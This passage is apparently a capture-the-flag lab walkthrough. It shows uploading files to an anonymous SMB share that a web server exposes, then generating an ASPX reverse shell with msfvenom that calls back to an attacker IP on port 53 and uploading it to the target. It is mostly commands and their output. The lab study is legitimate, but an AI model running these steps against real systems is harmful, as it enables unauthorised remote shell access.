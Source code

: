 \--2024-03-07 09:20:20-- http://10.10.245.215:49663/nt4wrksv/php-reverse-shell.php

Connecting to 10.10.245.215:49663... connected.

HTTP request sent, awaiting response... 404 Not Found

2024-03-07 09:20:20 ERROR 404: Not Found.

[.aspx - an ASP.NET Web forms file (page) that can contain Web controls and presentation and business logic](https://learn.microsoft.com/en-us/previous-versions/aspnet/2wawkw1c\(v=vs.100\)#file-types-managed-by-aspnet). **Upload test .aspx file to /nt4wrksv via SMB**

touch test.aspx

smbclient //TARGET\_IP/nt4wrksv

Password for \[WORKGROUP\kali]:

Try "help" to get a list of possible commands.

smb: \\> put test.aspx

putting file test.aspx as \test.aspx (0.0 kb/s) (average 0.0 kb/s)

**Attempt to download .aspx file using wget - success!**

wget http://TARGET\_IP:49663/nt4wrksv/test.aspx

\--2024-03-07 09:48:57-- http://10.10.245.215:49663/nt4wrksv/test.aspx

Connecting to 10.10.245.215:49663... connected.

HTTP request sent, awaiting response... 200 OK

Length: 0 \[text/html]

Saving to: ‘test.aspx’

test.aspx \[ <=> ] 0 --.-KB/s in 0s

2024-03-07 09:49:07 (0.00 B/s) - ‘test.aspx’ saved \[0/0]

#### [**Create .aspx reverse shell payload in "msfvenom"**](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom#asp-x) **()** <a href="#tcuz06r6h7t7" id="tcuz06r6h7t7"></a>

msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=(Attacker IP Address) LPORT=53 -f aspx > reverse.aspx

**Upload reverse shell to target host via SMB**

smbclient //TARGET\_IP/nt4wrksv

Password for \[WORKGROUP\kali]:

Try "help" to get a list of possible commands.

smb: \\> put reverse.aspx

putting file reverse.aspx as \reverse.aspx (25.6 kb/s) (average 25.6 kb/s)

**Create listener on attack host**
